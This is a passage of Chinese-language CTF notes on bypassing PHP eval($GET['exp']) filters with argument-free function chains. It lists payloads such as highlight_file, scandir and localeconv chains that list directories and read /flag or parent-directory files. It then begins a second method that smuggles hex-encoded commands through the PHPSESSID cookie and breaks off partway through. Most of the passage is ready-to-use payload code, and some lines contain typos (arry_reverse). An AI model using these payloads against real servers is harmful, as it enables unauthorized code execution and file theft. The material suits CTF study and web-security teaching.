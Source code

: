 &gt; 执行语句:`eval($GET[&#39;exp&#39;])`

```
var_dump(localeconv()); =&gt; .
var_dump(current(localeconv())); =&gt; ls
var_dump(scandir(current(localeconv()))); =&gt; ls /
```

一般这个时候出根目录下的文件是用string数组出的，如果我们需要把读取的文件名靠后，则使用数组移动的工具迁移其位置

```
var_dump(arry_reverse(scandir(current(localeconv())))); =&gt; ls /		# (倒序输出查询到的根目录)
```

然后直接读取文件就可以回显内容

```
highlight_file(next(arry_reverse(scandir(current(localeconv()))))); =&gt; cat /flag	# flag在第二个文件
```

灵活使用的payload

```
highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));//这个得爆破，不然手动要刷新很久，如果文件是正数或倒数第一个第二个最好不过了，直接定位
  //查看和读取根目录文件
  //查看和读取根目录文件
```

### 解法二: session_id

&gt; 执行语句:`eval($GET[&#39;exp&#39;])`

&gt; [!IMPORTANT]
&gt;
&gt; 使用条件是session_start()已被开启

#### hex2bin()

自己手动对命令进行十六进制编码，后面在用函数hex2bin()解码转回去，使得后端实际接收到的是恶意代码。

我们把想要执行的命令进行十六进制编码后，替换掉`Cookie:PHPSESSID=`后面的值为要执行的恶意代码。

```
hex2bin(session_id(session_start()))
```

#### 读文件

如果已知文件名，把文件名写在PHPSESSID后面
